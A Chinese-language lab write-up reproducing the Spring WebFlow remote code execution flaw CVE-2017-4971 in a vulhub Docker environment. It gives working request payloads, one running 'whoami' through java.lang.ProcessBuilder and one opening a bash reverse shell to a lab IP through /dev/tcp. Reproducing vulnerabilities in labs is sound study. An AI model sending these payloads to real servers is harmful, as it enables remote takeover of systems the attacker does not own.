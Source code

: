 # 2x11 漏洞复现——Spring WebFlow远程代码执行（CVE-2017-4971）

## 一、环境搭建

1. vulhub/spring/CVE-2017-4971，使用docker启动环境

   ```shell
   sudo docker-compose up -d
   ```

2. 然后访问http://IP:8080，出现如下web界面

   ![1.png](img/vulhub/spring/CVE-2017-4971/1.png)

## 二、漏洞复现

1. 点击web界面左上角的Login，跳转到如下登录界面

   ![2.png](img/vulhub/spring/CVE-2017-4971/2.png)

2. 使用左边提示的账号密码登录，进入后台后界面如下

   ![3.png](img/vulhub/spring/CVE-2017-4971/3.png)

3. 先搜索id为1的酒店，结果如下

   ![4.png](img/vulhub/spring/CVE-2017-4971/4.png)

4. 选择一家酒店进去点击预定“Book Hotel”，出现如下界面

   ![5.png](img/vulhub/spring/CVE-2017-4971/5.png)

5. 点击Proceed，点击Confirm再次确认，抓包测试一下，在数据包后面加上如下poc

   ```shell
   _(new+java.lang.ProcessBuilder("whoami")).start()=test
   ```

   ![6.png](img/vulhub/spring/CVE-2017-4971/6.png)

6. 可以看到whoami被执行了，并成功获取到用户名root，更改命令，反弹一个shell

   ```shell
   _(new+java.lang.ProcessBuilder("bash","-c","bash+-i+>%26+/dev/tcp/192.168.2.133/4444+0>%261")).start()=test
   ```

7. 成功获取shell

   ![7.png](img/vulhub/spring/CVE-2017-4971/7.png)

